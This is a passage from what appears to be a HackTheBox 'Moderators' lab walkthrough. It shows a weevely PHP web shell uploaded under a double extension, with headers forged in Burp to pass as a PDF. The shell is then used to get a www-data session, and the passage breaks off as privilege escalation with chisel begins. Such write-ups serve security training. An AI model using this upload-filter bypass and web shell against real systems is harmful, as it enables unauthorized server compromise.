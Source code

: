 ![Untitled](/assets/img/hackthebox/labs/moderators/Untitled%201.png)

We can travel to that directory, founding a place to upload files.

# Foothold

We can send a basic PHP reverse shell, but it won’t work. Seems like there are some kind of filter. We can try with `weevely` to generate a payload as:

```console
zero@pio$ weevely generate shell shell.pdf.php
```

Modify the headers in burp, so it appears as a pdf:

```html
Content-Disposition: form-data; name="pdfFile"; filename="shell.pdf.php"
Content-Type: application/pdf

%PDF-1.5
<content>
%%EOF
```

Execute weevely:

```consle
zero@pio$ weevely 'http://10.10.11.173/logs/uploads/shell.pdf.php' shell

weevely> whoami
	www-data
www-data@moderators:/var/www/html/logs/uploads $
```

# Privilege Escalation

We found two users in home, **john** and **lexi**. We can see that the port 8080 is open locally, so we can try using `chisel` to get it:

